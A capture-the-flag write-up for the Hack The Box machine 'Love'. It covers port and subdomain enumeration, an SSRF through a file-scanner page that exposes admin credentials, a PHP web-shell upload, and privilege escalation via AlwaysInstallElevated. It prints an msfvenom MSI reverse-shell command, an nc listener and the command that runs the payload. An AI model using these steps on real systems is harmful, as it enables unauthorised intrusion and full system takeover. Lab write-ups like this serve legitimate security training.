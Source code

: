 ```yaml
---
description: https://app.hackthebox.com/machines/344
---
```


# Love

## Nmap

```
nmap 10.10.10.239 -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001 -sV

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

After performing standard enumeration against the non HTTP ports we are unable to pull any interesting information.

Looking at the HTTP ports we have 80,443,5000 and 47001. Apart from port 80 we get Forbidden on 443 and 5000. Port 47001 gives us a not found error.

![](<../../../.gitbook/assets/image (191).png>)

The root page for 80 takes us to a voters login page.

![](<../../../.gitbook/assets/image (76).png>)

Directory enumeration with `feroxbuster` shows a few pages of interest. Namely the `/admin` directory which redirects to `/admin/index.php`.

![](<../../../.gitbook/assets/image (12) (2) (1).png>)

Again, we are unable to leverage anything too interesting for the moment. I tried logging in with the username "admin" and was sent back an error for incorrect password. Using a different username presents an incorrect username and password error.

![](<../../../.gitbook/assets/image (1670).png>)

A password brute force on the admin account does not yield any successful logins.

At this point we can perform sub domain enumeration with `wfuzz` to see if we can pull anything of interest.

```
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://love.htb" -H "Host: FUZZ.love.htb" --hl 125
```

![](<../../../.gitbook/assets/image (416).png>)

Here, we get a hit for the "staging" sub domain.

{% hint style="info" %}
Add "10.10.10.239 staging.htb.love" to /etc/hosts.
{% endhint %}

Where the root page for http://staging.love.htb takes us to the Free File Scanner page below.

![](<../../../.gitbook/assets/image (227).png>)

Checking the link at the drop for "Demo" we are taken to [http://staging.love.htb/beta.php](http://staging.love.htb/beta.php).

![](<../../../.gitbook/assets/image (168).png>)

From here I tried various PHP reverse shells and was unable to get them to execute as expected. Instead, this scanner appears to read the file contents only.

![](<../../../.gitbook/assets/image (147).png>)

Where this gets interesting, is that it is important to remember, the web server is operating in a different service or user context than us.

We can potentially use this to read the root pages of the otherwise forbidden pages we pulled from initial enumeration.

We can now read the root page for http://127.0.0.1:5000.

![](<../../../.gitbook/assets/image (324).png>)

Here we now the credentials: `admin:@LoveIsInTheAir!!!!`

Which can be used to login at `http://love.htb/admin/index.php`.

![](<../../../.gitbook/assets/image (419).png>)

From here, we notice we can interact with the users profile in the picture and use the "update" button to upload a new profile picture.

![](<../../../.gitbook/assets/image (2076).png>)

Knowing the web server is running PHP we can attempt to upload a PHP reverse shell. Using a webshell from: [https://github.com/WhiteWinterWolf/wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

Upload the shell as a profile picture on the web server. After the uploaded completes click on the profile again and right click -> open image in a new tab to execute the web shell: [http://love.htb/images/shell.php](http://love.htb/images/shell.php)

![](<../../../.gitbook/assets/image (960).png>)

After doing some basic enumeration from within the web shell we see AlwaysInstallElevated is set to 0x1 (Enabled).

```
 Value 0x1 represents AlwaysInstallElevated as being enabled.

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](<../../../.gitbook/assets/image (1890).png>)

How to perform privilege escalation with AlwaysInstallElevated:

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-windows/privilege-escalation/registry/registry-alwaysinstallelevated" %}

Firstly on the attacking system generate a `msfvenom` MSI reverse shell.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f msi -o Application.msi
```

Then use the web shell to upload the Application.msi

![](<../../../.gitbook/assets/image (411).png>)

Then set a `nc` listener the attacking system.

```
sudo nc -lvp 443
```

Then, execute the Application.msi through the web shell.

```
cmd.exe /c C:\xampp\htdocs\omrs\images\Application.msi
```

We then land a SYSTEM shell.

![](<../../../.gitbook/assets/image (232).png>)
